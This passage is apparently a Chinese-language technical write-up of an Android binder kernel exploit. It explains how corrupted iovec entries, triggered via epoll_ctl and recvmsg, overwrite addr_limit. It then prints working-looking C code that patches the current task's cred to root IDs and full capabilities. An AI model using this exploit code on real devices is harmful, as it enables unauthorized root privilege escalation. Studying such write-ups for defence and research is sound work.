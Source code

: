 sleep(2);确保主线程执行完上述内容

 epoll_ctl破坏掉我们的iovc,将iovecStack[IOVEC_WQ_INDEX].iov_len，iovecStack[IOVEC_WQ_INDEX + 1].iov_base改为wait.head.next原本在binder_thread的地址

write 将FinalSocketData写入socket,此时堵塞解除继续

```c
ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL
```

由于iovecStack[11].iov_base研究改为wait.head.next原本在binder_thread的地址，因此会在wait.head.next地址出写上0x8+0x8+0x8+0x8的数据，也就是

iovecstack[10].iov_len上填写FinalSocketData[0]

iovecstack[11].iov_base上填写FinalSocketData[1]

iovecstack[11].iov_len上填写FinalSocketData[2]

iovecstack[12].iov_base上填写FinalSocketData[3] 这一步将iovecstack[12].iov_base从原来的0x42424242覆盖成了addr_limit的地址

接着执行iovecStack[12]，将FinalSocketData[4]也就是 0xfffffffffffffffe写入addr_limit

由此patch掉了addr_limit

### 修改cred

知道了task_struct 和修改了addr_limit,因此可以在cred的地址上直接写入0

```c
printf("[+] Patching current task cred members \n");

    m_cred = (struct cred *)kReadQword(m_credAddress);

    if(!m_cred){
        printf("\t [-] Failed to read cred: %p",m_credAddress);
        exit(EXIT_FAILURE);
    }
    printf("\t cred: %p\n",m_cred);

    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, uid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, gid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, suid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, sgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, euid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, egid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsuid)), GLOBAL_ROOT_UID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, fsgid)), GLOBAL_ROOT_GID);
    kWriteDword((void *) ((uint8_t *) m_cred + offsetof(struct cred, securebits)), SECUREBITS_DEFAULT);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_inheritable)), CAP_EMPTY_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_permitted)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_effective)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_bset)), CAP_FULL_SET);
    kWriteQword((void *) ((uint8_t *) m_cred + offsetof(struct cred, cap_ambient)), CAP_EMPTY_SET);
```
